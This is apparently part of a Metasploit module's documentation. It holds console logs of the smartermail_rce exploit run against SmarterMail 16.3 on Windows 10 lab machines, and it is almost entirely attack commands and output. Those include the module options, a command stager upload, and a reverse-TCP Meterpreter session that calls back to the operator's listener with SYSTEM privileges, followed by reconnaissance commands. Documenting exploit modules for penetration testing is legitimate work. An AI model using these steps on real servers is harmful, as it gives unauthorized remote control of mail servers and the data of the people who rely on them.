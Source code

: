 ```
[*] Command Stager progress -  78.32% done (79794/101881 bytes)
[*] Command Stager progress -  80.33% done (81840/101881 bytes)
[*] Command Stager progress -  82.34% done (83886/101881 bytes)
[*] Command Stager progress -  84.35% done (85932/101881 bytes)
[*] Command Stager progress -  86.35% done (87978/101881 bytes)
[*] Command Stager progress -  88.36% done (90024/101881 bytes)
[*] Command Stager progress -  90.37% done (92070/101881 bytes)
[*] Command Stager progress -  92.38% done (94116/101881 bytes)
[*] Command Stager progress -  94.39% done (96162/101881 bytes)
[*] Command Stager progress -  96.39% done (98208/101881 bytes)
[*] Command Stager progress -  98.40% done (100252/101881 bytes)
[*] Command Stager progress - 100.00% done (101881/101881 bytes)
[*] Sending stage (175686 bytes) to 192.168.245.1
[*] Meterpreter session 1 opened (192.168.245.128:4444 -> 192.168.245.1:55099) at 2023-07-06 05:43:26 -0400

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : DESKTOP-50BU5J8
OS              : Windows 10 (10.0 Build 19045).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > 
```

### SmarterMail Version 16.3.6989 on Windows 10 Pro

* Using ENDPOINT `Mail`:

```
msf6 > use exploit/windows/http/smartermail_rce
[*] Using configured payload windows/meterpreter/reverse_tcp
msf6 exploit(windows/http/smartermail_rce) > set ENDPOINT Mail
ENDPOINT => Mail
msf6 exploit(windows/http/smartermail_rce) > set RHOSTS 192.168.29.1
RHOSTS => 192.168.29.1
msf6 exploit(windows/http/smartermail_rce) > set LHOST eth0
LHOST => eth0
msf6 exploit(windows/http/smartermail_rce) > exploit

[*] Started reverse TCP handler on 192.168.245.128:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking target web server for a response...
[+] Target is running SmarterMail.
[*] Checking SmarterMail product build...
[!] Product build not found. 16.x versions and below do not have a build number.
[*] Checking SmarterMail product version...
[+] Target is running SmarterMail Version 16.3.6989.
[+] The target appears to be vulnerable.
[*] Sending stage (175686 bytes) to 192.168.245.1
[*] Meterpreter session 1 opened (192.168.245.128:4444 -> 192.168.245.1:55147) at 2023-07-06 06:20:19 -0400

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : DESKTOP-50BU5J8
OS              : Windows 10 (10.0 Build 19045).
Architecture    : x64
System Language : en_US
```